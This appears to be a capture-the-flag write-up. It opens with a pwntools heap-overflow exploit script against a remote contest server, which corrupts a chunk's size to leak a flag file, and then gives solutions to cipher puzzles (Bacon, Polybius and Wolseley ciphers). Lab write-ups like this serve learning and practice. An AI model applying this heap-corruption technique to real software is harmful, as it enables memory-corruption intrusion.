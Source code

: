 ```python

def prepare():
    io.sendlineafter(b"Choice:", b"3")


io = remote("35.184.182.18", 32005)

alloc(0x88, b"aaa")  # 0
alloc(0x88, b"bbb")  # 1
prepare()
free(0)
alloc(0x88, b"c" * 0x88 + b"\xf0")  # overflow 1 size
free(1)  # free bigger size
alloc(0xe8, b"x" * 0x90 + b"Exploit400_flag.txt")  # 1
io.sendlineafter(b"Choice:", b"4")

io.interactive()
```

# DF 400 - No Irony in Rain
After being consumed by madness, go to his youtube channel where he uploaded the video.  
He got some comments in russian laughing at him, so why did they laugh?!  
Because the transcription in russian had different translation!!!!!!!!  
one of them reveals qwerty cipher russian version of the flag.
Hilarious! Nice work Prof!  

# Misc 300 - Decieved by Touch
For each square, there is either one triangle (=A) or two triangles (=B)  
There are 5 squares each separated by border.  
ABABB BBAAA BBBBB ABBAB ABABB BBABB BBBAA BAABA BABBB BAABB BABAB BABBB BBABA BBABB  
Throw this to cipher identifier: https://www.dcode.fr/cipher-identifier  
shows strong connection to bacon cipher --> WHAT WE DO IN LIFE  

# Misc 400 - My Synthetic Friend
### phase 1: submarines (coordinates) cipher  
```
  A B C D E
A A B C D E
B F G H I K
C L M N O P
D Q R S T U
E V W X Y Z
```
ct: BABD_BBBDACCDCDBABDCD_AAAEEE_ABEACDBBAEEE  
pt: FI_GICOOFIO_AEZ_BVOGEZ  

### phase 2: Wolseley Cipher  
key: LUNCH  
alphabet1: LUNCHABDEFGIKMOPQRSTVWXYZ  
rev. alph: ZYXWVTSRQPOMKIGFEDBAHCNUL  
ciphertex: FIGICOOFIOAEZBVOGEZ  
plaintext: PMOMWGGPMGTQLSHGOQL  
